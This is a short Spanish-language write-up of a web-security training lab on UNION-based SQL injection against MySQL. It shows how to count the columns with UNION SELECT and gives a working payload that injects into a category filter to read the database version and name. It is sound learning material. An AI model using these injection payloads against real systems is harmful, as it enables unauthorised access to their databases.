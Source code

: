 # 04 Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

Objetivo

```bash
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.
```

## Solución

> Podemos usar `'+UNION+SELECT+'abc','def'#` para añadir texto directamente al utilizar consultas UNION
> 

Debemos verificar cuantas columnas nos va a devolver nuestra query, podemos utilizar `UNION SELECT ‘TEXT1’, ‘TEXT2, ‘TEXT3'#`  sI vemos que nos muestra error 500, significa que la consulta original no tiene esa cantidad de columnas

![image.png](04%20Lab%20SQL%20injection%20attack,%20querying%20the%20database%2012cfab5460ec80949f6afcfdc6edf585/image.png)

Utilizamos el siguiente payload para que nos muestre la versión de la BD y el nombre de la BD

```jsx
Payload: '+UNION+SELECT+@@version,DATABASE()#
GET /filter?category=Lifestyle'+UNION+SELECT+@@version,DATABASE()#
```

![image.png](04%20Lab%20SQL%20injection%20attack,%20querying%20the%20database%2012cfab5460ec80949f6afcfdc6edf585/image%201.png)

![image.png](04%20Lab%20SQL%20injection%20attack,%20querying%20the%20database%2012cfab5460ec80949f6afcfdc6edf585/image%202.png)

![image.png](04%20Lab%20SQL%20injection%20attack,%20querying%20the%20database%2012cfab5460ec80949f6afcfdc6edf585/image%203.png)